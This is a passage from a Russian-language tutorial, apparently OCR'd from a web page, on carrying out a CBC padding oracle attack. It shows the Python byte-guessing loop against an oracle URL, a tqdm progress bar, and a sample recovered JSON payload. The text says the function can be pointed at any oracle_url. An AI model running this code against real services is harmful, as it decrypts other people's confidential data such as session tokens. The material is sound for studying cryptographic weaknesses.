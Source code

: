 ```python
        intermediate = [0] * block_size
        plain = [0] * block_size

        # 4. Для каждого байта от конца блока к началу
        for pad in range(1, block_size + 1):
            # Создаём основу модифицированного C_prev
            prefix = bytearray(C_prev[:-pad])
            # Подготавливаем хвост для нужного padding
            for j in range(1, pad):
                prefix.append(intermediate[-j] ^ pad)
            # Перебираем варианты для текущего байта
            for guess in range(256):
                test_block = prefix + bytes([C_prev[-pad] ^ guess ^ pad])
                if request_with_retries(test_block + C_curr, oracle_url, max_retries):
                    intermediate[-pad] = guess ^ pad
                    plain[-pad] = intermediate[-pad] ^ C_prev[-pad]
                    break

        recovered.extend(plain)

    # 5. Удаляем заполнение по последнему байту
    padding_len = recovered[-1]
    return bytes(recovered[:-padding_len])
```

В этой функции мы лаконично объединяем логику разбивки, подбора байтов, параллелизации и повторных попыток. Её достаточно подключить к любому клиентскому приложению, указав нужный `oracle_url`.

## Визуализация процесса

Для наглядности часто применяют библиотеку `tqdm`, которая позволяет отображать прогресс-бар в консоли. Уже в простом синхронном варианте можно обернуть внешний цикл:

```python
from tqdm import trange

for b in trange(1, len(blocks), desc="Attack blocks"):
    # внутренняя логика восстановления блока
    for pad in trange(1, block_size+1, desc=f"Block {b}"):
        ...
```

Это сразу показывает, сколько блоков осталось и сколько байт ещё нужно перебрать. Даже без графического интерфейса такое решение значительно повышает удобство и понимание текущей стадии атаки.

## Разбор восстановленного текста

После успешного восстановления всех блоков мы получаем сырое сообщение. Чаще всего в реальных атаках это JSON-payload с конфиденциальными данными или JWT-токен. Пример:

```json
{
    "user_id": 42,
    "is_admin": false,
    "exp": 1715760000
}
```
